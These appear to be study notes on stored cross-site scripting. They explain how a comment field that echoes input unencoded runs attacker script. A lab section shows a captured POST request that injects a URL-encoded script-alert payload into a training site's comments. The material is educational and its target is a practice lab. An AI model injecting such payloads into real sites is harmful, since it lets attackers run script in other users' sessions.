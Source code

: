 What is stored cross-site scripting?   
Stored XSS or persistent XSS araises when an application recieves data from an untrusted source and includes that data within its later    
HTTP responses in an unsafe way. 

Suppose a website allows users to submit comments on blog posts, which are displayed to other users. Users submit comments using an HTTP    
request like the following:  

POST /post/comment HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 100  

postId=3&comment=This+post+was+extremely+helpful.&name=Carlos+Montoya&email=carlos%40normal-user.net  

After this comment has been submitted, any user who visits the blog post will receive the following within the application's response:
<p>This post was extremely helpful.</p>  
Assuming the application doesn't perform any other processing of the data, an attacker can submit a malicious comment like this:
<script>/* Bad stuff here... */</script>  

Within the attacker's request, this comment would be URL-encoded as:  
comment=%3Cscript%3E%2F*%2BBad%2Bstuff%2Bhere...%2B*%2F%3C%2Fscript%3E  

Any user who visits the blog post will now receive the following within the application's response:
<p><script>/* Bad stuff here... */</script></p>  

The script supplied by the attacker will then execute in the victim user's browser, in the context of their session with the application.  


Lab: Stored XSS into HTML context with nothing encoded  
POST /post/comment HTTP/1.1  
Host: ac3a1ff01e93fd038023e57d00360025.web-security-academy.net  
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:52.0) Gecko/20100101 Firefox/52.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate  
Referer: https://ac3a1ff01e93fd038023e57d00360025.web-security-academy.net/post?postId=2  
Cookie: session=uE2UxMTA7XRIh1tvGZfMWOgWpunGIQUZ  
Connection: close  
Upgrade-Insecure-Requests: 1  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 144  

csrf=DrnM0FYX8iuxJY8DWROKokJK6svLtua9&postId=2&comment=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&name=wardaddy&email=wardaddy%40localhost&website=
